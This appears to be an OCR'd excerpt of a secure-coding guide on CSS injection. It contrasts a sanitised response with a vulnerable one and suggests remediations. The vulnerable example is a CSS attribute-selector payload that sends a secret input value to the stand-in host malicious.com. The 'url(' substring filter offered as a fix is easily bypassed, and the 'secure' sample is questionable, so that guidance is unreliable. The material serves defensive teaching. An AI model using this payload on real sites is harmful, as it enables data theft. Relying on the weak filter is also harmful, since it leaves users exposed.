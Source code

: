 **Example Secure Response**:
```html
<!-- Sanitized input prevents exfiltration -->
<style>input[value^='secret']{background:<!-- user input -->}</style>
```
No network requests to `malicious.com`.

**Example Vulnerable Response**:
```html
<!-- Unsanitized input enables exfiltration -->
<style>input[value^='secret']{background:url(http://malicious.com/steal)}</style>
```
Request sent to `malicious.com`.

**Remediation**:
- Block external URLs in CSS:
  ```javascript
  if (!userInput.includes('url(')) {
    document.querySelector('style').textContent = userInput;
  }
  ```
- Implement Content Security Policy (CSP):
  ```html
  <meta http-equiv="Content-Security-Policy" content="style-src 'self';">
  ```

**Tip**: Document network requests and CSS payloads in a report.